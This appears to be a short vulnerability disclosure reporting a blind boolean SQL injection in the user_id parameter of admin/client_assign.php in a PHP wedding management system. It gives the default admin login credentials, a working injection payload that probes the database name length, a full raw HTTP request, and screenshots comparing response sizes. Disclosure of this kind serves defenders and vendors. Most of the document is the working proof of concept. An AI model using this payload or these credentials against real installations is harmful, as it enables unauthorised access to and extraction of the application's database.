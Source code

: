 # Wedding Management System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/admin/client_assign.php?booking=31&user_id=

Vulnerability location: /Wedding-Management/admin/client_assign.php?booking=31&user_id=,user_id

[+] Payload: /Wedding-Management/admin/client_assign.php?booking=31&user_id=31%20and%20length(database())%20=8 // Leak place ---> user_id

Current database name: dbwedding,length is 9

```sql
GET /Wedding-Management/admin/client_assign.php?booking=31&user_id=31%20and%20length(database())%20=8 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 8, Content-Length: 16359

![image](https://user-images.githubusercontent.com/54017627/167991710-c2539421-48e5-4028-8919-3b745591968e.png)

![image](https://user-images.githubusercontent.com/54017627/167991778-7e5b33a1-feea-48b9-a045-decc7adb9e1b.png)

When length (database ()) = 9, Content-Length: 15082

![image](https://user-images.githubusercontent.com/54017627/167991735-21cabfc8-1029-48d1-a990-fa00cf5974bd.png)

![image](https://user-images.githubusercontent.com/54017627/167991643-7d2f0810-02af-4c12-8441-1dfebaa882d5.png)
